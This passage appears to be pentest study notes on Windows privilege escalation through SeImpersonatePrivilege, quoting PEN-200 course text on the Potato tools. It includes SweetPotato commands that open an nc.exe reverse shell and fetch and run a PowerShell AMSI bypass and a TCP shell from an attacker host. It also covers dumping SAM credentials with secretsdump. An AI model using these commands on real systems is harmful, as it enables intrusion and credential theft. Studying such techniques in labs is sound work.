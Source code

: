 ```
```

While PrintSpoofer provided us a straightforward exploit process to elevate our privileges, there are also other tools that can abuse _SeImpersonatePrivilege_ for privilege escalation. Variants from the _Potato_[9](https://portal.offsec.com/courses/pen-200/books-and-videos/modal/modules/windows-privilege-escalation/abusing-other-windows-components/using-exploits#fn9) family (for example _RottenPotato_, _SweetPotato_, or _JuicyPotato_) are such tools. We should take the time to study these tools as they are an effective alternative to PrintSpoofer.
	* USE **GODPOTATO** OR **SWEETPOTATO**

Sweetpotato examples:
```shell
.\SweetPotato.exe -a "C:\Windows\Temp\nc.exe -e cmd.exe 10.10.112.147 8081"
./SweetPotato.exe -a "/c powershell.exe iex (New-Object Net.WebClient).DownloadString('http://<IP>:8090/amsi.txt'); iex (New-Object Net.WebClient).DownloadString('http://<IP>:8090/Invoke-PowerShellTcp2.ps1')"
```

#### SAM, Security and System files

With this files we can dump credentials using impacket-secretsdump. We can get this files if we are admins or maybe check for folders like windows.old and check there inside .\\Windows\\System32 folder
